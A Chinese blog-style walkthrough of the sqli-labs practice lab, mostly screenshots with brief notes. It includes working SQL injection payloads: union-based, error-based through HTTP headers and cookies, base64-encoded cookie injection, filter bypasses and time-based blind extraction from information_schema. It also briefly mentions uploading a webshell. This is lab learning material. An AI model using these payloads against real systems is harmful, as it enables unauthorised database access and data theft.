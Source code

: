 ﻿直接放图
# 有回显的地方可以插入sql语句，pyload看url
order by 找出3个字段
union select 1,2,3
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706021841358.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)2,3就是显示位，可以放sql语句，--+为了注释后面语句
例如这个
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706022059865.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706023030121.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706023540351.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
# 报错注入三种都试一下paylod里面放sql语句
![加粗样式](https://img-blog.csdnimg.cn/20200706024550245.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706025026533.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
第七题传个马，然后。。。。。然后我没菜刀
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706025656228.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
第八题盲注 就是瞎猜（开个玩笑）通过页面是否正确返回来判断 例如

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706030217332.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706030236487.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
# 后面的逻辑改成sql语句盲注
第九题，显示一样，加一个sleep函数区分是否执行和第八题一样
第十题，双引号盲注，剩下的和第九题一样
第十一题，抓包改参
莫名其妙抓不了包
uname=0' union select 1,2  --+&passwd=admin&submit=Submit
第十二题，和十一题一样，单引号改双引号
uname=0") union select 1,database() --+ &passwd=admin&submit=Submit
第十三题
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706035606976.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
第十四题
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706035823941.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
第十五
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706040106232.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
十六
sleep函数
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020070604040687.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
十八
构造User-Agent
payload-header:User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:60.0) Gecko/20100101 Firefox/60.0 ’ or updatexml(1,concat(0x7e,database(),0x7e),1),”,”) #

十九
Referer
Referer: http://localhost/sqli-labs/Less-19/ ’ or updatexml(1,concat(0x7e,database(),0x7e),1),”,”) #
二十
构造cookie
payload-header:Cookie: uname=admin ’ or updatexml(1,concat(0x7e,database(),0x7e),1) #
# base64编码
二十一
union联查
Cookie: uname=JykgdW5pb24gc2VsZWN0IDEsMixlbWFpbF9pZCBmcm9tIGVtYWlscyAj=
二十二同上
Cookie: uname=IiB1bmlvbiBzZWxlY3QgMSwyLGVtYWlsX2lkIGZyb20gZW1haWxzICM=
二十三
由于bun掉了注释符构造or '1'='1来补全sql语句数字2是回显点
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706043224576.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
二十四
任意修改
先注册然后修改
UPDATE users SET PASSWORD=’666666’ where username=’ghost’ #’ and password=’123456’
把123456改为666666
二十五
盲注双写绕过
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706044048890.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
二十六
5是回显点，用%A0替代空格使用，用&&(%26%26)替代AND使用
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706044356341.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
二十七
大小写绕过
二十八
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706045425769.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
29
不会
# 宽字节注入 
32
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706050130886.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706050245533.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
35
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706050429377.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
36
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706051030349.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
37
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706051144323.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
# 堆叠注入 
38
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706051627537.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
39
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020070605175594.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
40
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706051955610.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
41
盲注
48
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706052540987.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
49
同上加一个sleep
50
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706052808369.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
51
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706052842742.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
52
同50
53
同51
62
sleep
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706053254354.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)
?id=1%27)and%20If(ascii(substr((select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27challenges%27),1,1))=79,0,sleep(5))--+
63同上
单引号 
64同上
双括号 
65
?id=1%22)and%20If(ascii(substr((select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27challenges%27),1,1))=79,0,sleep(10))--+
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706053645989.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70)









